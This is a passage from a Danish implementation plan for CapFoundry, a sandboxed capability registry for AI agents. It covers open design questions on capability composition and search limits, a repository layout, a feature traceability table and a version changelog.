| Kandidat-kvalitetsfilter | OBJ-5 < 0,50 |
| Signerede CFP'er, delta-CFCM-pakker, assurance-niveauer | Registryet får eksterne bidragydere |
| Organisationsregistries, remote executor, flere runtimes | Efterspørgsel dokumenteret i Explores `Missing` |

### Registreret beslutning: skills pakket som CFP'er

Foreslået i `docs/proposals/skills-vs-capabilities.md`. Argumentet holder: en skill har i dag ingen
`sha256`, ingen provenance, ingen licens i pakken og ingen forsegling, så du kan ikke verificere at
den skill der kører er den du reviewede. CFP-formatet løser præcis det.

**Udskudt, og den stærkeste grund står i forslaget selv:** forsegling giver herkomst, ikke
kvalitetssikring. Der findes intet der måler om en skill *virker*. Det gør værdien reel men smal —
forsyningskæde, ikke korrekthed — og smal værdi er netop hvad der skal vente på evidens (§26).

Skemaspørgsmålet er afgjort på forhånd så det ikke skal udledes igen: `outputSchema` ville skulle
gøres betinget af `artifact.type`, hvilket er en **brydende ændring af deskriptoren og et
`schemaVersion` 2-bump** — ikke et additivt felt. Formen ville være:

```jsonc
{
  "artifact": { "type": "instructions", "entrypoint": "./artifact/SKILL.md", "sha256": "..." },
  "exposure": { "execution": false, "artifact": true }
}
```

Værd at bemærke: A/B-harnesset er den nærmeste ting til en test for en skill, og scenariet
`search-should-be-skipped` er allerede mærket «Skill-kvalitet» i `PRD-FEAT-015`.

### Åbent: må en capability kalde en anden?

**Ikke afgjort.** Vision §39 nævner det én gang, og kun som fremtidigt arbejde: en Skill der
*komponerer* en ny CFP af eksisterende capabilities ved forfatningstid. MVP og PRD siger intet, og
`geo.addresses.distance` er i forslaget beskrevet som «a thin composition» uden at sige gennem
hvilken mekanisme.

Spørgsmålet er blevet konkret af to grunde. Den første er at `addresses.distance` er den næste
capability på køreplanen. Den anden er SEC-11: **den oplagte mekanisme — at importere et andet
artefakt — er præcis det hul vi netop har lukket.** En beslutning om komposition er derfor også en
beslutning om at genåbne noget.

**Fire veje, med deres pris:**

| Vej | Hvad det koster |
|---|---|
| **Ingen komposition.** `addresses.distance` reimplementerer geokodning og haversine | Præcis den hjulopfindelse CapFoundry findes for at stoppe, sket *inde i* CapFoundry |
| **Bundling ved forsegling.** CFP'en erklærer `dependsOn`, og packageren inliner afhængighedens artefakt med dens hash | Deterministisk, forseglet, ingen runtime-kanal. Men versionsdrift, og pakken vokser |
| **Runtime-tilbagekald.** Runneren injicerer en `invoke`-funktion der kalder tilbage til CFCM | Åbner en kanal ud af sandboxen, gør eksekvering rekursiv, og bryder det argument der afviste injectable fetch |
| **Komposition over capability-laget** — i agenten, i CLI'en, i en pipeline | Det arkitekturen implicerer i dag, og hvad `geocode \| distance` i en shell allerede demonstrerer. MVP §5 udelukker workflow discovery |

**Én begrænsning gælder uanset vej:** effekter skal forplante sig. Hvis en `PURE` capability kunne
kalde en `NETWORK` capability, ville `PURE` være en løgn — og `effect` er dét hele sandboxen hviler
på. En sammensat capability's effekt må være foreningsmængden af dens egen og alle dens
afhængigheders, og rettighedsporten skal se hele afhængighedstræet frem for kun det yderste lag.

### Udskudt uanset resultat

OBJ-8's rentes rente-effekt (§2.8) kræver en længere måleperiode end MVP'en. Design en opfølgende måling — kør ikke MVP'en længere for at ramme den.

### Åbent: søgeomkostning styres af dømmekraft, ikke af en tæller

**Rejst af [@kartikb753](https://x.com/kartikb753)**, en AI-ingeniør der bygger agent-harnesses og
evalueringer, i en tråd på X. Issue-linket mangler stadig og skal ind her når det findes.

`capability-awareness` styrer hvornår en agent søger med et **filter**: deterministisk,
generelt anvendeligt, nyttigt andre steder — alle tre — plus «en søgning du allerede ved vil fejle
koster tokens og returnerer intet». Det er dømmekraft.

Hans forslag er en **tæller**: stop efter N forgæves søgninger. Og hans kontrol er bedre end vores,
af en grund der er værd at skrive ned: **et filter kan ræsonneres udenom af netop den evne der er
upålidelig. En tæller kan ikke.**

**Delvist forsvar, som også er det ærlige forbehold:** designet er én søgning pr. opgave, ikke en
retry-løkke, så der er intet N at begrænse — medmindre en agent nedbryder en opgave og søger på hver
del. **Vi ved ikke om de gør det.** `search-should-be-skipped` er scenariet der ville vise det, og
det har aldrig kørt mod en rigtig agent.

Så størrelsen af det problem hans rettelse løser er ukendt, og det afgør om den skal bygges: løber
agenter ikke i løkker, er tælleren maskineri ingen har brug for — og vi har begge argumenteret imod
den slags i dag. **Beslutningen hører til efter Fase 4's data.**

To designspørgsmål er hans at besvare frem for vores at gætte: N pr. opgave eller pr. session, og
hvad der sker *ved* grænsen — stopper agenten, eller holder den blot op med at søge?

### Åbne spørgsmål der venter på afgørelse

| ID | Spørgsmål | Blokerer |
|---|---|---|
| ~~OQ-1~~ | ~~Elementnavn for `ui.dataTable`~~ — afgjort: `elementName` er et input med default `cf-data-table`, valideret mod HTML-reglerne | ~~Fase 2~~ |
| **OQ-2** | Skal CFP have et arkivformat, eller er mappen nok i MVP'en? §17 lader det bevidst stå åbent | Ikke blokerende; mappen bruges |
| ~~OQ-3~~ | ~~Hostingdomæne for registry og Explore~~ — afgjort: registry-basen er en URL *eller* en lokal sti, så hele røret kan køres uden hosting. `cfcm.example.json` peger på GitHub Pages | ~~Fase 1~~ |
| **OQ-4** | Hvilket MIT-repo bruges til packager-spiken (`PRD-FEAT-017.2`)? | Fase 5 |

---

## Bilag A · Revideret repository-form

MVP §24's form justeret til AD-4 (registryet er data, ikke en service):

```text
capfoundry/
├── README.md
├── PRD.md
├── deno.json
├── cfcm.example.json
├── capabilities/                 # kilde til sandhed: CFP'er
│   ├── CapFoundry.geo.distance/
│   │   ├── capability.json
│   │   ├── artifact/index.ts
│   │   ├── tests/
│   │   ├── provenance.json
│   │   ├── license/
│   │   └── README.md
│   ├── CapFoundry.text.slugify/
│   ├── CapFoundry.date.businessDaysBetween/
│   ├── CapFoundry.validation.iban/
│   ├── CapFoundry.csv.detectDelimiter/
│   ├── CapFoundry.json.schema.infer/
│   ├── CapFoundry.ui.dataTable/
│   └── netsi/                    # privat fixture (PRD-FEAT-011)
├── registry/
│   └── index.json                # BYGGET artefakt, committet, aldrig håndredigeret
├── cfcm/
│   ├── mod.ts
│   ├── config/                   # PRD-FEAT-003
│   ├── search/                   # PRD-FEAT-004
│   ├── resolver/                 # PRD-FEAT-005
│   ├── cache/                    # PRD-FEAT-005
│   ├── runtime/                  # PRD-FEAT-006
│   ├── telemetry/                # PRD-FEAT-009
│   ├── candidates/               # PRD-FEAT-013
│   ├── local/                    # PRD-FEAT-012
│   └── mcp/                      # PRD-FEAT-008
├── services/
│   └── intake/                   # candidates + valgfri telemetri-modtager
├── skills/
│   ├── capability-awareness/     # PRD-FEAT-014
│   └── capability-packager/      # PRD-FEAT-017
├── eval/                         # PRD-FEAT-015
│   ├── harness.ts
│   ├── scenarios/                # ti §22-scenarier
│   └── reports/
├── web/explore/                  # PRD-FEAT-016
├── scripts/
│   ├── build-index.ts
│   ├── validate-cfp.ts
│   └── aggregate-telemetry.ts
└── docs/
    ├── mvp/
    ├── vision/
    └── packager-spike.md
```

---

## Bilag B · Sporing: MVP v0.2 → features

| MVP-afsnit | Dækket af |
|---|---|
| §4.1 registry + artifact store | `PRD-FEAT-002` |
| §4.2 kompakt CFCM | `PRD-FEAT-003` |
| §4.3 capability-søgning | `PRD-FEAT-004` |
| §4.4 resolve + cache | `PRD-FEAT-005` |
| §4.5 lokal eksekvering | `PRD-FEAT-006` |
| §4.6 kandidatindlevering | `PRD-FEAT-013` |
| §4.7 awareness-skill | `PRD-FEAT-014` |
| §4.8 telemetri | `PRD-FEAT-009` |
| §4.9 Explore | `PRD-FEAT-016` |
| §6 namespaces | `PRD-FEAT-003.5` |
| §7 `cfcm.json` | `PRD-FEAT-003.1` |
| §8 indeks vs. artefakt | `PRD-FEAT-002.2`, `PRD-FEAT-005` |
| §9 return modes | `PRD-FEAT-007` |
| §10 syv capabilities | `PRD-FEAT-010` |
| §11 deskriptor | `PRD-FEAT-001` |
| §12 søg og resolve | `PRD-FEAT-004`, `PRD-FEAT-005` |
| §13 lokal eksekvering | `PRD-FEAT-006` |
| §14 privat fixture | `PRD-FEAT-011` |
| §15 `Local.*` fixture | `PRD-FEAT-012` |
| §16 kandidater | `PRD-FEAT-013` |
| §17 CFP | `PRD-FEAT-001.2` |
| §18 awareness-skill | `PRD-FEAT-014` |
| §19 packager-skill | `PRD-FEAT-017` |
| §20 Explore | `PRD-FEAT-016` |
| §21 telemetri | `PRD-FEAT-009` |
| §22 testdesign | `PRD-FEAT-015` |
| §23 metrikker | `PRD-FEAT-015`, OBJ-1..7 |
| §25 første milepæl | Exit-kriterium for Fase 3 |
| §27 fejlregel | `PRD-FEAT-015.5` |

Alle 28 afsnit i MVP v0.2 er enten dækket af en feature eller er en begrænsning (§1, §2, §3, §5, §24, §26, §28) der er indarbejdet i planens struktur.

---

## Changelog

### v1.6 — 2026-09-12
- Statusrevision mod koden frem for mod markeringerne: ni features stod umarkerede selv om de var
  leveret, hvilket er min egen bogføringsdrift
- `PRD-FEAT-015` markeret **bygget, aldrig kørt** — den vigtigste sondring i dokumentet lige nu
- Hovedstatus omskrevet: alle 17 features bygget, eksperimentet ubesvaret

### v1.5 — 2026-09-12
- `effect: NETWORK` implementeret som en trevejs-fællesmængde mellem deskriptor og lokal politik.
  Slukket som standard; `permissions`-feltet i `cfcm.json` er ikke længere dødt
- Ingen capability i det første sæt bruger den — en test fastholder at alle otte er `PURE`
- Validatoren håndhæver nu at `effect` og `permissions` stemmer overens; `READ` og `WRITE` afvises
  eksplicit som ikke-eksekverbare
- Kandidat-svaret returnerer `promoteCommand` som selvstændigt felt frem for prosa

### v1.4 — 2026-09-12
- Fase 3 leveret: `PRD-FEAT-013` kandidatindlevering og `PRD-FEAT-014` Capability Awareness Skill.
  **MVP §25's milepæl er nået**
- `CapFoundry.text.editDistance` tilføjet som ottende capability — den første der kom ind gennem
  kandidat-loopet frem for at være designet på forhånd
- F7: en agent lovede kandidatindlevering før værktøjet fandtes. F8: validatoren godtog `TODO`-
  pladsholdere; den afviser dem nu, sammen med gentagne aliases
- Edit-distance-forespørgslerne flyttet fra OBJ-2's near-miss-sæt til OBJ-1's recall-sæt
- `PRD-FEAT-013.5` (intake-endpoint) udskudt som eksplicit valgfri

### v1.3 — 2026-09-12
- **Rettelse af v1.2:** OBJ-2 blev rapporteret som 0,000; den faktiske rate var 0,105
- F5: enlig kandidat fik margin-vægten forærende, hvilket gav forkerte `MATCH`. Rettet — konfidens
  hviler nu på dækning alene uden en nummer to. OBJ-2 0,105 → 0,000, OBJ-1 uændret
- F6: Fase 1's «recall-loft» var en artefakt af en tynd testfixture. Fixturen er nu kopieret ordret
  fra de rigtige deskriptorer, og recall-loftet måles mod det ægte indeks
- Near-miss-sættet udvidet med de formuleringer der afslørede F5

### v1.2 — 2026-09-12
- Fase 2 leveret: alle syv offentlige capabilities, privat fixture, `Local.*` fixture, return modes
- Nyt afsnit «Fund fra Fase 2» med F3 (stiopløsning) og F4 (fmt bryder artefakt-hash)
- OBJ-1 (0,938) og OBJ-2 (0,000) målt på det rigtige indeks og fastholdt som tests, med forbehold
  om at forespørgslerne ikke er uafhængige
- OQ-1 lukket: `elementName` er et input med default `cf-data-table`
- `deno task prepare` tilføjet, så rækkefølgen fmt → seal → build-index er eksplicit

### v1.1 — 2026-09-12
- Fase 0 og Fase 1 leveret og markeret i `PRD-SEC-008`
- Nyt afsnit «Fund fra Fase 1» med F1 (SEC-10) og F2 (konfidensformlen)
- SEC-10 tilføjet: remote imports omgår nul-rettigheds-sandboxen; `PRD-FEAT-006.1` udvidet
- `PRD-FEAT-004`'s konfidensformel præciseret: ukendte tokens tæller i nævneren
- Datamodel synkroniseret med koden: `inputSummary`/`outputSummary` er påkrævede deskriptorfelter,
  `cfpLocation` tilføjet til IndexRecord
- OQ-3 afgjort som antagelse: registry-basen er repoet selv, lokal sti eller GitHub Pages

### v1.0 — 2026-09-12
- Første implementeringsplan udledt af MVP v0.2
- Syv arkitekturbeslutninger truffet (AD-1..AD-7)
- 17 features defineret med acceptkriterier
- Datamodel eksplicit med feltnavne og typer
- Fem faser med exit-kriterier
- Syv målbare udgangskriterier (OBJ-1..OBJ-7) plus ét eksplicit udskudt (OBJ-8)
- Fire åbne spørgsmål registreret (OQ-1..OQ-4)
